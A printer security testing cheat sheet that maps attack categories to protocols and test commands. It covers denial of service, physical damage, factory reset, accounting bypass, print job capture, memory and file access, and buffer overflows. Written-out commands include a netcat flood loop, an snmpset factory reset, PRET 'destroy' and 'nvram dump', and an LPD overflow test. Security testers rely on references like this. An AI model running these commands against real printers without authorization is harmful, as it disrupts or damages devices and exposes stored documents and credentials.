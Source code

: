 # Printer Security Testing Cheat Sheet

To systematically check for vulnerabilities in a printing device, first perform a generic network assessment and check for printer-specifc web based information leaks using Praeda. Then, use the following cheat sheet to quickly find flaws in printer languages and network protocols.
Category | Attack | Protocol | Testing
--- | --- | --- | ---
Denial of service 	Transmission channel 	TCP 	while true; do nc printer 9100; done
Document processing 	PS 	PRET commands: disable, hang
PJL 	PRET commands: disable, offline
Physical damage 	PS 	PRET command: destroy
PJL 	PRET command: destroy
Privilege escalation 	Factory defaults 	SNMP 	snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
PML 	PRET command: reset
PS 	PRET command: reset
Accounting bypass 	TCP 	Connect to printer directly, bypassing the print server
IPP 	Check if you can set a username without authentication
PS 	Check if PostScript code is preprocessed on print server
PJL 	PRET command: pagecount
Fax and Scanner 	multiple 	Install printer driver and (ab)use fax/scan functionality
Print job access 	Print job retention 	PS 	PRET command: capture
Print job manipulation 	PS 	PRET commands: cross, overlay, replace
Information disclosure 	Memory access 	PJL 	PRET command: nvram dump
File system access 	PS 	PRET commands: fuzz, ls, get, put, …
PJL 	PRET commands: fuzz, ls, get, put, …
Credential disclosure 	PS 	PRET commands: lock, unlock
PJL 	PRET commands: lock, unlock
Code execution 	Buffer overflows 	PJL 	PRET command: flood
LPD 	./lpdtest.py printer in "`python -c 'print "x"*3000'`"
Firmware updates 	PJL 	Flip a bit, check if the modified firmware is still accepted
Software packages 	multiple 	Obtain an SDK and write your own proof-of-concept application 
